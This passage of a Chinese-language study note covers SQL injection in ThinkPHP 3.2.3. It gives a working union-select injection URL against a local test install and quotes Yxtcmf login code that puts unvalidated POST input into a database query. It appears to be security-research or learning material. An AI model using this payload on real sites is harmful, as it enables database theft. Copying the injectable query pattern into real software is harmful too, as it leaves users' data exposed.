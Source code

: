 <img src=".\图片\Snipaste_2023-05-26_11-58-22.png" alt="Snipaste_2023-05-26_11-58-22" style="zoom:67%;" />

```http
http://127.0.0.1:8081/thinkphp_3.2.3_full/index.php/Home/Index/test?username[0]=exp&username[1]==-1%20union%20select%201,database(),3,4
```

<img src=".\图片\Snipaste_2023-05-26_12-00-18.png" alt="Snipaste_2023-05-26_12-00-18" style="zoom:80%;" />

## Yxtcmf实例

### 思路

全文搜索关键词：`->find()`

找到 `application/User/Controller/LoginController.class.php` 里的 `ajaxlogin()` 方法里，关键代码如下：

```php
	$username=$_POST['account'];
		$password=$_POST['password'];
		$users_model=M('Users');
		if(preg_match('/^\d+$/', $username)){
			$where['mobile']=$username;
		}else{
			 if(strpos($username,"@")>0){
				$where['user_email']=$username;
			}else{
				$where['user_login']=$username;
			}
    	} 
    $result = $users_model->where($where)->find();
```
